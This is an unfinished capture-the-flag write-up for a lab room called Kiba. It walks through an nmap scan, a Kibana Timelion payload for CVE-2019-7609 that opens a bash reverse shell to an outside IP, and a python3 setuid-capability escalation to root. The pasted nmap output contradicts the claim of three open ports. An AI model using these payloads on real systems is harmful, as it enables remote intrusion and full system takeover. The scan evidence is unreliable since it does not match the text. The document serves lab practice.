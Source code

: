 * NOT THE REAL WRITEUP, I JUST DO SOME TEST*
# ROOM : KIBA

## 1. Enumeration

First of all, i have to gather somes informations about this boxes.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 09:30 EDT
Nmap scan report for 127.0.0.1
Host is up (0.000072s latency).
All 1000 scanned ports on 127.0.0.1 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

## 2. Research of exploit !
We found one CVE about Kibana : **CVE-2019-7609**

This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner to get the reverseshell.

`nc -lnvp 4444`

On the Timelion, i can put the payload :
`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`
Then run the code and load the canvas page.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

Nice, we have the reverse shell.

1st flag obtained !

## 3. Privilege escalation !

We have to look at linux capabilities with getcap.

```getcap -r / 2</dev/null```

We can see python have the setuid capabilite and we can exploit this to get the root.
Using GTFOBins we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

(En cours d'écriture..)

